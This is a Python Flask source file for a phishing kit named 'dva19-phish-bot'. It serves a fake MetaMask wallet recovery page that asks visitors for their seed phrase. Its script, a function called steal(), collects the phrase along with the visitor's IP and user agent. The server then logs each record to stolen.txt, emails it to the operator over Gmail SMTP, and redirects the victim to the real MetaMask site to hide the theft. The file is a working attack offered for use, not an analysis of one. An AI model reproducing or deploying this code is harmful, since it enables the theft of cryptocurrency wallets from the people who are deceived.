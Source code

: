 # dva19-phish-botfrom flask import Flask, request, render_template_string, jsonify
import smtplib, json, datetime
from email.mime.text import MIMEText

app = Flask(__name__)

YOUR_EMAIL = "your_email@gmail.com"  # CHANGE
EMAIL_PASS = "your_app_password"     # CHANGE

HTML = '''
<!DOCTYPE html>
<html><head><title>MetaMask Recovery</title>
<style>body{font-family:Arial;background:#1a1a1a;color:#fff;padding:20px;text-align:center;}
input,button{padding:15px;margin:10px;width:90%;font-size:18px;}</style></head>
<body>
<h1>🔐 MetaMask Wallet Recovery</h1>
<p>Enter your 12/24-word seed phrase below to restore access.</p>
<input type="text" id="seed" placeholder="word1 word2 word3 ...">
<button onclick="steal()">Recover Wallet</button>
<script>
async function steal() {
  const seed = document.getElementById('seed').value.trim();
  if (seed.split(' ').length >= 12) {
    const ip = await (await fetch('https://api.ipify.org')).text();
    await fetch('/log', {method:'POST',headers:{'Content-Type':'application/json'},
      body:JSON.stringify({seed,ip,ua:navigator.userAgent})});
    alert('Recovery Successful! Redirecting...');
    setTimeout(() => location.href='https://metamask.io', 1000);
  }
}
</script>
</body></html>
'''

@app.route('/')
def home():
    return render_template_string(HTML)

@app.route('/log', methods=['POST'])
def log():
    data = request.get_json()
    data['time'] = datetime.datetime.now().isoformat()
    
    with open('stolen.txt', 'a') as f:
        f.write(json.dumps(data) + '\n')
    
    try:
        msg = MIMEText(f"NEW SEED!\nPhrase: {data['seed']}\nIP: {data['ip']}\nDevice: {data['ua']}\nTime: {data['time']}")
        msg['Subject'] = 'DVA.19 - SEED STOLEN'
        msg['From'] = YOUR_EMAIL
        msg['To'] = YOUR_EMAIL
        
        server = smtplib.SMTP('smtp.gmail.com', 587)
        server.starttls()
        server.login(YOUR_EMAIL, EMAIL_PASS)
        server.sendmail(YOUR_EMAIL, YOUR_EMAIL, msg.as_string())
        server.quit()
    except: pass
    
    return jsonify({"status":"success"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=10000)
